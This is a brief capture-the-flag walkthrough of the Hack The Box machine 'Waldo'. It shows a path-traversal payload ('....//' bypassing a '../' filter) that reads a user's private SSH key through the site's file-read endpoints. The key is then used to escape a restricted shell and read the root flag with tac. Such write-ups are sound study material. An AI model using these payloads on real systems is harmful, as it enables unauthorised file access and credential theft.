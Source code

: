 ```yaml
---
title: Waldo
author: fieldraccoon
date: 2020-06-21 
categories: [hack-the-box, linux, medium]
tags: [hack-the-box, lfi, javascript]
math: true
---
```

# Waldo

In the source code of the http website there is this javascript code:

```javascript
function readFile(file){ 
  var xhttp = new XMLHttpRequest();
  xhttp.open("POST","fileRead.php",false);
  xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  xhttp.send('file=' + file);
  if (xhttp.readyState === 4 && xhttp.status === 200) {
    return xhttp.responseText;
  }else{
  }
}
```
we can use this to read other php files on the server

we intercept the request with burpe and we find out that we can provide an output to `/dirRead.php` to get files.
when playing around with requests we can see that there is a filter on the ../../
```path=....//....//....//....//....//home/nobody//.ssh returns; [".","..",".monitor","authorized_keys","known_hosts"]```
so we can see that the .moinitor might be the private key

we then do this command in /fileRead.php:
```file=....//....//....//....//....//home/nobody/.ssh/.monitor```
which gives us the ssh key for the user nobody 
we can also use the script provided to have a command line interface to get the ssh key
it appears taht there is another user on the box 'monitor' so we try log back in with teh same ssh key to escape our restricted bash shell

```ssh -i /home/nobody/.ssh/.monitor monitor@127.0.0.1 -t bash --noprofile```
the path is screwed so we have to do:
```export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH```
now we can go and have a look around
we eventually figure out that we can use the tac binary to read files

`tac /root/root.txt`
